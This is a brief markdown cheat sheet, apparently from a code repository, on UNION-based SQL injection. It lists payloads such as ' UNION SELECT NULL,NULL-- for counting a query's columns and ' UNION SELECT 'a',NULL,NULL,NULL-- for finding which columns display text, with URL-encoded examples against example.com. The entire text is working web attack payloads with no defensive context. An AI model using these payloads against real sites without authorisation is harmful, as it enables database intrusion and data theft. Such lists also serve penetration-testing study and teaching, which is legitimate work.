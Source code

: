 # UNION based SQL Injection

## Find number of SQL collumns

`' UNION SELECT NULL--`

`' UNION SELECT NULL,NULL--`

Example: `https://example.com/param='+UNION+SELECT+NULL,NULL--`

## Find data in collumns

`' UNION SELECT 'a',NULL,NULL,NULL--`

`' UNION SELECT NULL,'a',NULL,NULL--`

`' UNION SELECT NULL,NULL,'a',NULL--`

`' UNION SELECT NULL,NULL,NULL,'a'--`

Example: `https://example.com/param='+UNION+SELECT+'a',NULL,NULL,NULL--`
